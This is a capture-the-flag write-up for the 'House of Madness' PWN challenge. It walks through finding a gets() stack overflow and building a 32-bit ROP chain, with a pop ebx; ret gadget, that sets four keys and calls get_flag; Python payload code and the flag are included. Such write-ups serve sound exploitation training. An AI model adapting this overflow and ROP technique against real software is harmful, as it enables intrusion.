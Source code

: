 # House of Madness

* **Category:** PWN
* **Points:** 897

## Challenge

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> Note: ASLR is disabled for this challenge
> [Download](./challenge)

## Solution

To preface, this solve was after the challenge environment was fixed with ASLR being disabled. A solve while ASLR was enabled was possible.

While messing around with the binary at first we are met with a direction to enter `Stephen` in room 4.

![](./img/programRun.png)

Upon further analysis with Ghidra, we see that in room 4, we unlock access to a hidden room by entering `Stephen` that includes an unsanitized gets that would allow an overflow of `local_1c`

![](./img/room4.png)

Ok, cool! Overwrite buffer, overwrite eip, call get_flag(), capture the...

![](./img/tryAgain.png)

\>:(

Alright step it back. Taking a look at get_flag() we see checks for 4 keys that are initialized by 4 other functions: `get_key1`, `get_key2`,`AAsDrwEk`,`set_key4`
While reversing the functions, it is important to note that `get_key2` will not initialize `key 2` if `key 1` is already initialized. In addition we see that `get_key1` takes an argument and compares it to 0xfeedc0de.
The obscure function `AAsDrwEk` sets `key 3 without any preconditions. Finally, `set_key4` initializes `key4` once the previous keys have been set. 
Ok, cool. Game plan is:

![](./img/gameplan.png)

```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)

padding = "A"*28 #Overflow buffer and overwrite saved eip
payload = padding + p32(get_key3) + p32(get_key2) + p32(get_key1) + p32(get_key4) + arg + p32(get_flag)   
```
Yay now I can finally get some sle-

![](./img/take1.png)

\>:(
Some quick debugging shows that when get_key4 returns, esp is pointing to get_key1's argument and points eip to 0xfeedc0de.

![](./img/feedcode.png)

![](./img/gdb.png)

To understand what needs to be accomplished, it is pivotal to understand what the ret instruction does. ret will take the value at esp's address and pop it into eip and then increment esp.
Therefore, in order to have `get_key1` to ret into `get_flag` which is at `esp + 0x4` on the stack, I need to somehow increment esp. Something to simply move `get_flag` to the top of the stack...
Oh yeah! A ROP gadget to pop off `0xfeedcode` off the stack and then ret into `get_flag`!
Using ```ROPgadget --binary ./houseof | grep pop```, we find a single `pop ebx; ret` instruction which does exactly that!
Now just add that to the exploit and claim the flag to satisfy your lack of sleep.
```python
get_flag = 0x5655686b
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_key3 = 0x565567cd
get_key4 = 0x565567e9
arg = p32(0xfeedc0de)
pop_ret = p32(0x5655601e)

payload= "B"*28 + p32(get_key3) + p32(get_key2) + p32(get_key1) + pop_ret + arg + p32(get_key4) + p32(get_flag)
```
![](./img/ineedsleep.png)

```
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```
